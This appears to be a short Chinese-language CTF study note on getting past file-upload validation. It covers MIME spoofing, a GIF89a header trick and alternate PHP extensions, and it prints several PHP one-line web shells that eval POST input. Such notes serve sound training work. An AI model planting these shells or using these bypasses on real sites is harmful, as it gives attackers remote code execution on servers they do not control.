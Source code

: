 ```yaml
---
tags:
  - ctf
  - web
create_time: 2024-07-01 11:07
modified_time: 2024-07-01 11:07
status: todo
---
```

文件上传
 - 前端绕过: 不满足其验证条件，进行绕过
 - 后端绕过: 满足其验证条件，进行绕过
   - 文件类型（MIME）: Content-Type: image/jpeg
   - 文件头部: GIF89a<?=eval($_POST[1]);?>
   - 文件内容: 
      - <?php eval($_POST[1]);?>
      - <?=eval($_POST[1]);?>
      - <script language="php">eval($_POST[1]);</script>   //仅限php5
   - 文件后缀: php pHp phP phtml pht